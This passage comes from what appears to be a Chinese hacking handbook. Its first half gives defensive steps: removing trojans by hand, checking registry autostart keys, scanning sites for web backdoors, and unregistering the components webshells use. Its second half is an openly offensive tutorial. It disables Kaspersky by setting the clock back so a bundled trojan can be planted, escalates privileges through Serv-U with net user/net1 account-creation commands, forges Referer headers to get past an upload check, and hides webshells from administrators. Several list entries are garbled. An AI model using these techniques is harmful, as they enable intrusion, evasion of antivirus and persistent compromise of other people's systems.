恢复注册表主要有两种办法：第一种是下载“金山毒霸 IE 修复工具”，然后选择“取消注册表工具的禁用”就行了，如图 41 所示。


图 41

第二种是直接把恢复注册表的代码保存为 1.reg 文件，然后导入即可解除禁用，代码如下：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

解决了注册表禁用的问题，该进安全模式杀毒了。进入安全模式的方法是：启动计算机，在系统进入 Windows 启动画面前按下 F8 键（或者在启动计算机时按住 Ctrl 键不放），在出现的启动选项菜单中，选择“Safe Mode”或“安全模式”，如图 42 所示。进入安全模式时可能会比正常进入系统需要的时间更长一些，稍等一会就好了。


图 42

大部分木马程序都会将自身文件属性设为“隐藏”或“系统”，在默认的情况下，系统是不会显示出带有“隐藏”和“系统”属性的文件，所以需要我们设置一下系统的文件显示方式。

> 打开“我的电脑”，选择“工具”→“文件夹选项”，点击“查看”，取消“隐藏受保护的操作系统文件”前的勾号，并在“隐藏文件和文件夹”一项中选择“显示所有文件和文件夹”，然后点击“确定”，如图 43 所示。

接着再进到系统目录，现在就能看到多了一些为半透明效果的文件和文件夹，这些就是带有“隐藏”和“系统”属性的文件，如图 44 所示。

木马的程序文件通常喜欢藏身在 `C:\Windows\system`、`C:\Windows\system32`、`C:\Windows\system\temp` 或 `C:\Windows` 这些目录中，大家可以在这些目录下看看有无名称可疑的文件。例如灰鸽子就会在 `C:\Windows` 目录下生成 `*_Hook.dll`（* 号代表的字符是随机的，根据定制有不同的变化，默认是 `G_Server_Hook.dll`）文件。


图 43


图 44

但是请注意，这些目录下面的文件一定不能乱删，以免引起系统的崩溃。当发现可疑文件名欲删除时，一定要先到 www.google.com 或 www.baidu.com 搜索下，确认是正常的系统文件还是可疑的木马文件后再删除。

如果看不出哪个文件是可疑的，有一个办法教给大家，不过只适用于比较老的、会使用进程的木马（现在的木马大部分采用无进程方式，以免暴露自己）。那就是再次重启计算机，进入正常模式后来到桌面，按住 **Ctrl+Alt+Del** 组合键调出“任务管理器”，在进程中查看有没有异常的进程。

要特别留意一些使用障眼法的进程，比如 svchost 和 svch0st 的区别你能发现吗？（异常进程的第二个单词是数字 0，不是字母 O）

以下都是 Windows 的常见进程，如果发现可疑进程名，请到 www.google.com 或 www.baidu.com 进行查询。

| 进程名 | 说明 |
|---|---|
| smss.exe | Session Manager |
| csrss.exe | 子系统服务进程 |
| winlogon.exe | 管理用户登录 |
| services.exe | 包含很多系统服务 |
| lsass.exe | 管理 IP 安全策略以及启动 ISAKMP/Oakley（IKE）和 IP 安全驱动程序 |
| svchost.exe | Windows 2000/XP 的文件保护系统 |
| SPOOLSV.EXE | 将文件加载到内存中以便稍后打印 |
| explorer.exe | 资源管理器 |
| internat.exe | 托盘区的拼音图标 |
| mstask.exe | 允许程序在指定时间运行 |
| regsvc.exe | 允许远程注册表操作，对应系统服务 remoteregister |
| tftpd.exe | 实现 TFTP Internet 标准，该标准不要求用户名和密码 |
| llssrv.exe | 证书记录服务 |
| ntfrs.exe | 在多个服务器间维护文件目录内容的文件同步 |
| RsSub.exe | 控制用来远程储存数据的媒体 |
| locator.exe | 管理 RPC 名称服务数据库 |
| clipsrv.exe | 支持“剪贴簿查看器”，以便可以从远程电脑察看剪贴页面 |
| msdtc.exe | 微软分布式传输协议调度程序，该进程调用系统 Microsoft Personal Web Server 和 Microsoft SQL Server，该服务用于管理多个服务器 |
| grovel.exe | 扫描单实例存储（SIS）卷上的重复文件，并且将重复文件指向一个数据存储点，以节省磁盘空间（只对 NTFS 文件系统有用） |
| snmp.exe | 包含代理程序，可以监视网络设备的活动并且向网络控制台工作站汇报 |

如果通过查询发现“任务管理器”的“进程”中有非法进程在运行，可以在进程名上点击右键，选择“结束进程树”停止正在运行的进程，如图 45 所示，否则会因为该进程正在运行中而无法删除。


图 45

然后找到该进程文件所在的目录，把该进程文件删除掉；也可以重启电脑后进入安全模式，在该进程文件没有被加载的情况下进行删除。

删除掉木马原文件后，还需要把木马在系统中被加载运行的地方删除。正是因为被加载到与系统一起运行，所以每次重启时就会使木马运行，当去掉加载项后，即便木马的原文件没有被删除，也会无法自动加载运行了，所以这一步是手工查杀的重点。

最简单的木马会在 MSCONFIG 的启动配置里加载。**点击“开始”→“运行”，输入“MSCONFIG”后回车，在弹出的“系统配置实用程序”界面中选择“启动”标签项**，我们可以看到在系统启动时可以加载的程序列表。

绝大部分的木马藏身于注册表启动，下面是常见的注册表启动项，木马可能藏在其中进行加载：

- 1. **Load 注册键**  
  介绍该注册键的资料不多，实际上它也能够自动启动程序。位置：`HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows\load`。
- 2. **Userinit 注册键**  
  位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit`。这里能够使系统启动时自动初始化程序，通常该注册键下面有一个 `userinit.exe`，但该键允许指定用逗号分隔的多个程序，例如 `userinit.exe, QSA.exe`（不含引号）。
- 3. **Explorer\Run 注册键**  
  和 `load`、`Userinit` 不同，`Explorer\Run` 键在 `HKEY_CURRENT_USER` 和 `HKEY_LOCAL_MACHINE` 下都有，具体位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`。
- 4. **RunServicesOnce 注册键**  
  `RunServicesOnce` 注册键用来启动服务程序，启动时间在用户登录之前，而且优先于其他通过注册键启动的程序。位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce`。
- 5. **RunServices 注册键**  
  `RunServices` 注册键指定的程序紧接 `RunServicesOnce` 指定的程序之后运行，但两者都在用户登录之前。`RunServices` 的位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`。
- 6. **RunOnce\Setup 注册键**  
  `RunOnce\Setup` 指定了用户登录之后运行的程序，它的位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\Setup`。
- 7. **RunOnce 注册键**  
  安装程序通常用 `RunOnce` 键自动运行程序，它的位置在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 和 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`。  
  `HKEY_LOCAL_MACHINE` 下面的 `RunOnce` 键会在用户登录之后立即运行程序，运行时机在其他 `Run` 键指定的程序之前；`HKEY_CURRENT_USER` 下面的 `RunOnce` 键在操作系统处理其他 `Run` 键以及“启动”文件夹的内容之后运行。如果是 XP，还需要检查 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx`。
- 8. **Run 注册键**  
  `Run` 是自动运行程序最常用的注册键，位置在：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。  
  `HKEY_CURRENT_USER` 下面的 `Run` 键紧接 `HKEY_LOCAL_MACHINE` 下面的 `Run` 键运行，但两者都在处理“启动”文件夹之前。

以上都是木马常见的藏身之所，如果发现了不正常的加载项，先备份注册表，然后在右边的窗口中选中该项，点击鼠标右键，按删除即可。此外，`HKEY_CLASSES_ROOT\exefile\shell\open\command` 和 `HKEY_CLASSES_ROOT\txtfile` 常与 EXE 和 TXT 类的文件关联，即如果运行 EXE 和 TXT 类的文件，木马会被重新激活。

`HKEY_CLASSES_ROOT\exefile\shell\open\command` 处的默认值为 `"%1" %*`，如果发现中间插有类似 `c:\windows\muma.exe` 的可执行文件，请立即清除掉，如图 46 所示。


图 46

清除方法为：鼠标右键点击右面窗体中的该项，选择“修改”，去掉多余命令，只保留“%1”。初学者对注册表不太熟悉，强烈建议每次删除前备份注册表，错误删除后方便恢复。最后讲一些特别情况的处理：例如打不开 EXE 格式的文件导致打不开注册表编辑器，可以在 `C:\Windows\regedit.exe` 把该文件名后缀改为 COM 后再打开；如发现注册表被锁定，先去网上搜索注册表修复工具进行恢复，然后再对注册表进行编辑。现今木马越来越变得狡猾，以上介绍的手工查杀充其量也只能解决一般的木马，一些隐藏性更强的木马所用的招术多种多样，篇幅有限就无法一一列举了，实践的经验有待大家积累。

## 网站被入侵后如何清除黑客留下的后门？

如果你是一位从事网站维护工作的人员，那么就有可能遇到网站被黑的情况，被入侵后需要马上关闭网站进行认真的清理。黑客在入侵后，除了修改首页，还会在网站中放置多个后门，如果后门不清除掉，黑客会利用这些后门反复地进入网站，“一黑再黑”。清除黑客入侵后留下的脚本后门是一个极为费时费力的事，现在有一款工具可以很轻松地进行这一过程，这就是“雷克图站长助手”。这款工具本身就是由著名黑客 LAKE2 出品，具有检测现今流行的各种后门，包括为了隐藏后门所建立的各种畸形目录的能力，并且还整合了 SQL 注入防护等其它功能，是一款脚本安全维护的必备工具。将“雷克图站长助手”下载解压后，将整个目录上传至自己的 WEB 空间，然后在 URL 中访问。例如目录名为 LAKE2，那么在 IE 中访问链接 `http://www.xxx.com/lake2/` 即可进入“雷克图站长助手”的管理页面，如图47所示。


图47

首先会有一个密码输入框，需要输入密码才能进后台执行各种功能，默认密码是 `admin888`。建议在进后台后必须马上更改密码，以免被黑客利用而引发其它安全问题。输入密码后点击“确定”，在弹出一个提示框提示更改密码后进入操作界面，如图48所示。在左侧分别有“后台首页”“管理员密码修改”“查找ASP木马”“文件篡改检测”“可疑文件搜索”“SQL防注入”“官方公告”“保留栏目”“退出”选项，下面逐一介绍各选项的主要功能。“后台首页”“官方公告”“保留栏目”和“退出”这四项没有什么具体内容，在此略过，先看看“管理员密码修改”选项。刚才说过，进入后台的第一件事就是修改此系统的默认管理密码，修改密码时注意不要改成了弱口令，如123456、888888之类的，很容易被黑客猜解。

- 1. 检查 ASP 文件（包括可以被 IIS 执行的 asa、cdx、cer 文件）
- 2. 检查 ASP 文件调用的任意格式文件
- 3. 检查 ASP 木马可疑特征码
- ……（以下略）


“雷克图站长助手”的容错性还是很强的，如果在扫描文件较多的情况下出现假死，只要等一段时间最后都能扫出结果，但如果网站实在是太大，文件太多，建议还是采用逐个目录的扫描。

“要检查的路径”中填 `\` 就是整站检查，而直接填入目录名表示对该目录单独检测。该项主要是针对向网站原有 ASP 文件中插入木马进行的检测。

我们在“要检查的路径”处输入 `\` 表示检测整个网站，一会儿就看到了扫描结果，如图49所示，最左边和最右边是发现的存在可疑问题的文件的相对路径和描述。

| 文件相对路径 | 特征码 | 描述 |
|---|---|---|
| .\\config.asp | Eval | eval()函数可以执行任意ASP代码，被一些后门利用。其形式一般是：eval(X)。但是javascript代码中也可以使用，有可能是误报。 |
| .\\config.asp | Execute | execute()函数可以执行任意ASP代码，被一些后门利用。其形式一般是：execute(X)。 |
| .\\cook.asp | .CreateTextFile\|.OpenTextFile\|.WriteFile | 使用了FSO的CreateTextFile/OpenTextFile函数读写文件。 |
| .\\vfytx160.asa | Execute | execute()函数可以执行任意ASP代码，被一些后门利用。其形式一般是：execute(X)。 |
| .\\numa.asp | (vbscript\|jscript\|javascript).Encode | 似乎脚本被加密了，一般ASP文件是不会加密的（解密）。 |

图49

“文件篡改检查”这一项是需要提早预防才能在此时发挥作用，它主要是针对单独放置的后门。它的作用是把整个网站的正常文件建立一个文件列表，黑客如果放置了后门，网站中会多出一个文件，经过对比发现异常就会报警。

“可疑文件搜索”这一项是当前面发现了木马后，在这里输入和木马同一天的时间为条件进行搜索，从中找出可疑文件。整站中如果有文件是在那个时间段内改动过，很可能是被黑客改动后放置的后门或木马。

“SQL 防注入”是入侵防御中的一环，使用很简单，只要把这一代码放在 CONN.ASP 中就给我们的网站加上了一层防注入的屏障，如图50所示。


“辅助插件”中有两个很重要的功能，如图51所示，“数据库安全保护”是为了防止改后缀的数据库被黑客利用；“特殊文件夹检测”是防止黑客建立 `1..1.` 这样的畸形目录，利用 Windows 对文件夹的识别漏洞来隐藏木马。


好好利用这个工具进行检测，在服务器中的 WEB 后门和木马基本都会被清除干净。

### 9 怎样使用综合类安全防护工具？

个人计算机上除了安装杀毒软件和防火墙外，还应该使用一些整合类的综合安全防护工具，因为它们的操作简单，又是中文界面，对于新手来说很容易。这里以“木马清道夫”为例介绍一下这类工具的使用。

“木马清道夫”首先就整合了杀毒软件和防火墙，这一部分就不细说了，主要讲讲它作为综合安全工具整合的其它功能。启动程序后能看到右边列出了软件的主菜单，如图52所示。


- 1. “进程信息”中能很方便地查看到木马隐藏起来的进程，如果发现有危险进程，该进程名会以红色显示。
- 2. “模块信息”中能探测可疑模块，可以搜出计算机中存在的无版权信息、非系统模块，但又在使用中并嵌入了系统的可疑模块。这些很可能是木马的模块，可将其删掉。
- 3. “启动管理”中能看到加载的启动项，可方便地删除可疑的启动进程，而不用到新手不了解的注册表中去查找，如图53所示。


图53

- 4. “扫描进程”功能中，能方便地从内存中查找出木马，如图54所示。


图54

图55

- 5. “查看用户和用户组”功能中，可以看到计算机中的账号情况，如果发现有不是自己建立的账号，很可能是黑客入侵后留下方便再次进入的，包括黑客建立的隐藏管理员账号，都可以被发现，如图55所示。
- 6. “查看共享目录”功能可以像黑客一样对计算机进行检测，如果发现了共享目录马上删除。共享目录是 IPC 入侵的桥梁，删除掉能阻断现在被新手黑客广泛使用的这一手法。
- 7. “注册表扫描”能从注册表中找到被恶意修改的地方，像木马常使用的与 TXT、EXE 等文件关联与否，也很容易被查出。查找出注册表的可疑改动后点击“修复”即可恢复到正常状态，如图56所示。


图56

- 8. “扫描系统漏洞”功能就类似一个漏洞检测工具，能查出我们的计算机上有哪些系统漏洞没有打上，会出现提示。
- 9. “清理整个内存”功能可以整理和释放内存空间，提高机器运转效率。通过使用这种整合类安全工具，新手可以很容易地做到和高手一样的事。

### 10 服务器如何防范 WEBSHELL？

WEBSHELL 给服务器带来的危害是显而易见的，黑客利用它来完成对网站的操作，如修改网站页面、提升系统权限等。不过 WEBSHELL 并不是万能的、不可防御的，如果对其有比较深的了解，还是可以进行防护，使黑客即便通过某些漏洞获取了网站的 WEBSHELL 也无法正常使用。

WEBSHELL 对文件及命令行操作，都是通过组件来实现的，组件的信息保存在注册表中，如果在注册表中作出相应的改动，就能不让 WEBSHELL 正常调用。

- （1）卸载 WScript.Shell 和 Shell.application 组件

这两个组件相当关键，WEBSHELL 的执行命令功能就是通过它们实现的。这里提供一个批处理进行卸载，分为 Windows2000 和 Windows2003 两个版本。

Windows2000 版的代码如下：

```bat
regsvr32 /u C:\WINNT\System32\wshom.ocx
del C:\WINNT\System32\wshom.ocx
regsvr32 /u C:\WINNT\system32\shell32.dll
del C:\WINNT\system32\shell32.dll
```

Windows2003 版的代码如下：

```bat
regsvr32 /u C:\Windows\System32\wshom.ocx
del C:\Windows\System32\wshom.ocx
regsvr32 /u C:\Windows\system32\shell32.dll
del C:\Windows\system32\shell32.dll
```

将以上代码分别存为批处理文件，在相应的系统下执行即可卸载 WScript.Shell 和 Shell.application 组件。代码中的这些命令其核心就是注销了 shell32.dll 和 wshom.ocx，如图57所示，使之不能发挥功能，启用 WScript.Shell 和 Shell.application 组件。


- （2）卸载 FileSystemObject 组件

这个组件就是常说的 FSO 了，即文件系统对象。WEBSHELL 通过该组件可以对文件系统进行操作，它是把双刃剑，一方面网站的正常程序很多需要使用 FSO，另一方面 WEBSHELL 木马也是使用 FSO 控制网站的。禁用 FSO 后，在阻断 WEBSHELL 利用的同时，会使用户的使用甚至脚本程序的正常运行带来不便，请根据自身情况慎重选择。

卸载 FileSystemObject 组件有两个命令，也是分别对应的 Windows2000 和 Windows2003 操作系统。Windows2000 注销此组件的命令是：`RegSvr32 /u C:\WINNT\SYSTEM\scrrun.dll`；Windows2003 注销此组件的命令是：`RegSvr32 /u C:\Windows\SYSTEM\scrrun.dll`。现在再使用 FSO 相关的功能就会出现如图58所示的提示。


如果有网站运行不正常的现象需要恢复 FSO，恢复的命令是：`regsvr32 Scrrun.dll`。通过卸载这三个常被 WEBSHELL 调用的组件，可以使目前大部分 WEBSHELL 无法正常发挥功能，大大提高服务器的安全性。

### 11 没有条件安装防火墙和杀毒软件，如何尽力防护计算机安全？

作为一台计算机，防火墙和杀毒软件就和鼠标键盘一样，是必不可少的部件，如果没有安装，计算机中毒中马几乎是无法避免的。轻则影响使用，重则损坏计算机。但是在某些特定的情况下（比如学校实验室的计算机、图书馆的计算机等），计算机上无法安装杀毒软件时，该如何保护我们的计算机呢？

现在我们本机开有 telnet 服务的 23 端口，该端口可以用来进行口令猜测等攻击，而作为一台不引人注意的机器，口令很可能是类似于 123456 这样的弱口令。于是内网中有人会通过 nc 对 23 端口进行连接，如图59所示。


让外部主机能随意连接我们在内网的计算机是十分危险的，例如 IPC 连接、共享文件夹、漏洞等都可以被利用。如果有防火墙软件，可以很轻松地关闭端口，可是本机却不允许我们安装自己的软件（内网中很常见的一种情况）。

其实在 Windows 下本身就整合了一些保护功能，比如“IP 安全策略”，其作用完全就相当于一个防火墙。**单击“开始”-“运行”，输入“mmc”后回车，弹出“控制台1”的窗口。我们依次选择“文件”-“添加/删除管理单元”，在“独立”标签项中点击“添加”，选择“IP 安全策略管理”，最后按提示完成操作，如图60所示。**

这时，我们已把“IP 安全策略（在本地计算机）”添加到“控制台根节点”下了，如图61所示。**双击“IP 安全策略”就可以新建一个管理规则。右击“IP 安全策略”，在弹出的快捷菜单中选择“创建 IP 安全策略”，如图62所示。打开 IP 安全策略向导，点击“下一步”，在名称中我们输入策略命名：“关闭23端口”，如图63所示。**


图60


图61


图62


图63

单击“下一步”，选择“激活默认响应规则”（注意：在点击“下一步”的同时，需要确认此时“编辑属性”被选中。）。然后选择“完成”，出现“新IP安全策略属性”窗口，下面开始对这个“关闭23端口”的策略进行配置，如图64所示。

选择“添加”，然后一直点击“下一步”，选择“此规则不指定隧道”选项，“下一步”后选择“所有网络连接”，然后一直“下一步”，直到出现“IP筛选器列表”，如图65所示。

再点“添加”，在弹出的“IP筛选器列表”界面的“名称”处输入“阻止TCP和ICMP数据包”，再点右边那个“添加”按钮，如图66所示。


然后“下一步”，源地址应选择“任何IP地址”，目标地址选择“我的IP地址”。在“协议”标签项中，注意类型应为“TCP”，并设置IP协议端口。选择“从任意端口”和“到此端口”，并输入端口号，如图67所示。


最后点击“确定”即可。这时在“IP筛选器列表”中会出现一个“阻止TCP和ICMP数据包”，如图68所示。

选中它，点击“下一步”，切换到“筛选器操作”标签项，点击“添加”，名称默认为“新筛选器操作”，再依次选择“添加”—“阻止”—“完成”。现在来到“IP安全策略”处，刚才我们新建的“关闭23端口”策略已经显示出来了，如图69所示。

在它上面按鼠标右键，选择“指派”就设置好了。现在在内网中再次连接本机的23端口，显示信息如图70所示，已经无法连接。


图68


图69


图70

通过以上设置，这样就起到和防火墙一样的作用。如果此时黑客通过 IPC 等漏洞连接上后，打开 TELNET 服务想要连接计算机进行操作，就会出现无法连接的提示。

### 12 黑客是怎么让我的卡巴斯基过期的？

目前市场上主要的杀毒软件有诺顿、金山、瑞星、卡巴斯基等，其中卡巴斯基率先采用了一项很强大的防护功能，就是主动防御，也叫行为检测。这种防护方法有别于以往根据特征码查杀的思路，它不管木马如何改特征码，既然它是木马，最后总会做木马该做的事，那么一旦有程序做了木马会做的事，就发出提示。即便你制作了一个完全免杀的木马，在运行时卡巴斯基仍会出现如图71所示的提示。


图71

这样就使通过修改特征码达到免杀的木马也不能绕过查杀。难道安装了卡巴斯基我们就不会中木马了吗？当然不是！要想真正地突破卡巴斯基，涉及到很高深的编程技巧，作为初学者是很难的。既然查杀软件用新思路封堵了木马，我们也用新思路来绕过查杀！下面来看看分析过程：

使用卡巴斯基是需要注册的，并且注册文件有一定的时效性，如果过期，原来的注册文件就不再有效了，如图72所示。卡巴斯基在验证计算机当前时间上存在一个漏洞，可能是为了减轻验证注册文件是否过期的数据量，它把验证过程设定为先验证文件在本机上的系统时间（就是桌面右下角那里的时间）内是否过期，如图73所示。如果此处已为过期，则不经过服务器验证，直接就认为是已过期的注册文件，使程序停止响应。


图72


图73

现在思路明确了，我们只要把计算机的时间改成它的注册文件过期的时间，就能让卡巴斯基停止响应了。卡巴斯基的注册文件有效期最长的也不过五年，现在是2008年，我们试着可以把系统时间改到五年前。命令很简单，可以在 **CMD 模式下直接输入 `Date 2003-1-1`**，也可以将命令拷贝到记事本中另存为后缀为 `bat` 的批处理文件。执行命令后，我们把鼠标指针移动到屏幕右下角的时间显示处，提示为2003年1月1日，如图74所示。


可以把这个 `bat` 文件和我们第三章《黑客入侵常用技巧》一节中教的制作“万能捆绑”的方法结合起来，如图75所示，在运行木马前先运行这个 `bat`，就能让卡巴斯基失效。


现在卡巴斯基就已经停止工作了，这个方法虽然有很多问题，比如时间被改后会被发现、卡巴的图标变成灰色引人怀疑等，不过已经成功达到了种下木马的目的，获得了我们想要的东西，总之已达目的。

# 第五章 入侵过程常见问题


- 挟持身份证可以让黑客盗你东西吗？
- （后续条目字迹不清）
- 我用3389登录对方电脑的远程桌面后，他会发现吗？我操作他的电脑会影响到他用鼠标和键盘控制电脑吗？
- 所谓的“穿越防火墙”技术是如何做到的？
- 为什么肉鸡上运行着远程桌面服务，可是却无法连接到对方的远程桌面？
- SA 权限注入后无法建立管理员账户。
- 为什么我通过小马上传文件总是失败？
- 我的 U 盘里工具总是被经验丰富管理员发现并删除，有没有隐藏工具的方法？
- （其余条目字迹不清）

- 1. 我找到了 Serv-U，为什么不能提升权限？
- 2. 怎么突破外部提交？
- 3. 我的 WEBSHELL 总是被经验丰富的管理员发现并删除，有没有更隐蔽的放置 WEBSHELL 的方法？
- 4. 为什么我通过小马上传文件总是失败？
- 5. 在无权限注入点无法建管理员账号，也无法备份 WEBSHELL 时该怎么办？
- 6. 为什么肉鸡上运行着远程桌面服务，可是却无法连接到对方的远程桌面？
- 7. 我使用啊D攻击器 IPC 连接上了一台有漏洞的电脑，为什么在复制文件时提示出错？
- 8. 怎样防止自己的木马被查杀呢？
- 9. 我用3389登录对方电脑的远程桌面后，他会发现吗？我操作他的电脑会影响到他用鼠标和键盘控制电脑吗？
- 10. 所谓的“穿越防火墙”技术是如何实现的？
- 11. 为什么在 WINDOWS 2003 下上传总是失败？
- 12. 下载得到的数据库却没有密码，该怎么打开？
- 13. 赛出管理员密钥后却是加密的，该怎么得到未加密的明文？
- 14. 如果过滤了单引号如何注入？
- 15. 如果 XP_CMDSHELL 被删除了，无法执行命令该怎么办？
- 16. 手把手教你制作个人的简单黑页

### 1 我找到了 Serv-U，为什么不能提升权限？

Serv-U 是一种被广泛运用的 FTP 服务器端软件，通过它用户能够将任何一台 PC 设置成一台 FTP 服务器。这样，用户或其他使用者就能够使用 FTP 协议，通过在同一网络上的任何一台 PC 与 FTP 服务器连接，进行文件或目录的复制、移动、创建和删除等。

Serv-U 提权的方法在第三章《黑客入侵常用技巧》中有过介绍，成功率是比较高的，但是有时也会出现不好用的问题，需要我们找到原因。

首先要排除的是书写原因，例如在输入提权添加账号命令 `serv_u "net user nohack 12345678 /add"` 时，很容易把密码后面 `/add` 前的空格忘掉！注意：参数 `/add` 的前面要有一个空格！

然后看看执行命令后的回显，注意如图1所示的一段回显信息：如图1中所显示，在利用 Serv-U 的本地管理密码登录进行提权时，信息提示 `530 not logged in`，说明登录出错，而正常的登录成功显示应该如图2所示。注意信息提示 `220 logged in proceed`，说明成功登录。

发生登录出错的情况多数是由于管理员修改了 Serv-U 本地管理账号密码造成的。`#l@$ak#.!k;0@P` 就是这个密码，新版本的 Serv-U 能在“设置”一“密码”选项中修改这个值，一旦被修改，我们就无法再用本地管理账号成功登录了，后面的提权自然失败。

对付这种情况，我们只需把 Serv-U 的 `ServUDaemon.exe` 文件下载到本地，如图3所示，然后通过一款叫“Serv-U提权综合利用工具”的软件打开，就能读出被修改后的密码。

在该工具中选择 `ServUDaemon.exe` 的路径和相对应的版本，点击下方的“读取”按钮，可以看到在这个 Serv-U 中默认的本机管理密码被改成了 **nohacktest*#00**，如图4所示。


图1


图2


图3


图4

接下来我们要用这个新的密码，生成一个有针对性的新 Serv-U 溢出利用工具。首先切换到“文件生成”工具栏，输入刚才的密码，点击“生成”即得到了一个用本地管理密码 `nohacktest*#00` 登录的溢出工具。这款工具还能生成 asp、aspx、php 等多种格式的利用工具，如图5所示。


图5

另外，管理员还能用修改本地管理的默认端口 43958 的方法来防止提升权限。只要我们通过测试找出了修改的端口，同样也可利用此程序来修改端口，生成专门的溢出工具。

以上是 Serv-U 在溢出时提示无法登录、提权不成功的可能原因。还有一种情况，虽然我们登录成功，但还是无法建立账号。根据笔者的经验，很大可能是建账号工具 `net.exe` 被设置了单独使用的权限，或者是被改名删除了。

遇到这种情况，我们可以使用 `net.exe` 的备份文件 `net1.exe` 进行账号添加操作。`net1.exe` 常被管理员忽视，它和 `net.exe` 都位于 `%systemroot%\windows\system32` 目录下，如图6所示。


图6

```bash
net user nohack 12345678 /add
net1 user nohack 12345678 /add
```

### 2 怎么突破外部提交？

我们在用 nc 抓包上传时常遇到提交不了数据的情况，出现的原因有很多。有些时候，在提交的数据中返回了“禁止从外部提交数据”等字符，这更明确地指出了问题的所在，有可能是网站禁止从外部提交数据引起的。这一节就简单介绍一下绕过“禁止本地提交”的办法。

出现这种无明显出错提示的无法提交，是有很多原因的，本节的内容只是尝试能否以下面的方法来解决。


图7

我们先抓包看看提交的数据是什么样的，如图8所示，然后再与一般的提交数据进行一下比较。


图8

先把无法提交时抓到的数据复制粘贴到记事本里，再打开一个能正常提交的网站并抓下数据进行对比。下面的第一段代码是正常能提交的数据包，第二段代码是无法提交的网站数据包，大家请看截出的关键代码。

第一段：

```http
POST /BBS/FileLoad.aspx HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-silverlight, */*
Referer: http://www.xxx.com/fileload.aspx?catalog=0&action=add&phototype=0
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d8186363403ec
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 2.0.50727)
Host: www.pceggs.com
Content-Length: 1727
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: AJSTAT_ok_times=6; forever=pceggs.com; UserID=...; Time=...; Status=...; AJSTAT_ok_pages=95
```

第二段：

```http
POST /864/classalbum.asp?action=upload HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d32aed10c24
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; QQDownload 1.7)
Host: pctest000.w5.cctvdns.com
Content-Length: 8327
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONID...; ...
Content-Disposition: form-data; name="pictype"
```

经过对比，发现两段代码中有一个关键的不同之处：第一段能正常提交的代码中有 **Referer:http://www.xxx.com/fileload.aspx?catalog=0&action=add&phototype=0** 这一行，而第二段没有。

Referer 这个函数可以判断用户是从什么页面连过来的，也就是能分析页面来源，可见我们的目标网站很可能是用了这个函数进行判断。知道了关键点，解决思路也就应运而生了，只须在无法提交的没有 Referer 函数的数据包中加上这一行就可以了。

我们直接在 Referer 后面加上目标站的域名和需要提交的文件名，这里目标网站用 `www.xxx.com` 代替，再加上提交的文件路径 `/864/classalbum.asp?action=upload`。

添加后的完整语句是 **Referer:http://www.nohacktest.com/864/classalbum.asp**，如图9所示的第三行。再次提交后，成功绕过“禁止外部提交”。


图9

### 3 我的 WEBSHELL 总是被经验丰富的管理员发现并删除，有没有更隐蔽的放置 WEBSHELL 的方法？

大多数朋友放置 WEBSHELL 的一般方法，就是在网站上放老兵或海洋之类的 WEB 木马，这实在是当管理员不存在。高手一般不放这种大马，怕太引人注目，而是换用一句话木马，需要时再传大马。

这已经有了初步的木马保护意识，宁可多费手脚也要多求一份安全。不过这种方法还是太明显，其实我们可以做得更好。

先说说思路：在 asp 编程中我们肯定常常接触包含句式，通俗地说，就是在一个 asp 里调用另一个文件。假设现在有一个 nohack.asp 文件，代码如下：

```asp
<!--#INCLUDE FILE="setup.asp"-->
<!--#include file=char.asp-->
<!--#include file=checkuser.asp-->
<!--#include file=mail.asp-->
<title><%=SchoolmateName%> 管理页面</title>
<!--#include file="css.asp"-->
<body ...>
```

```asp
<%
if not sysadmin or session("adminlogin")<>"OK" then
    Errmsg=Errmsg+"<br>"+"<li>本页面为管理员专用，请<a href=sysadm_index.asp target=_top>登录</a>后进入。"
    call Error("Information", errmsg)
else
    call main()
    set rs=nothing
    call endconnection()
end if
%>
```

在这段代码的前几行，分别引用了 `setup.asp`、`char.asp`、`checkuser.asp`、`mail.asp` 等几个文件，被引用的这些文件不论后缀名是什么，都会在访问时以 asp 解析。也就是说，如果引用的五个文件是除 asp 后缀以外的文件，在访问 `nohack.asp` 时也会被当成 asp 文件解析。

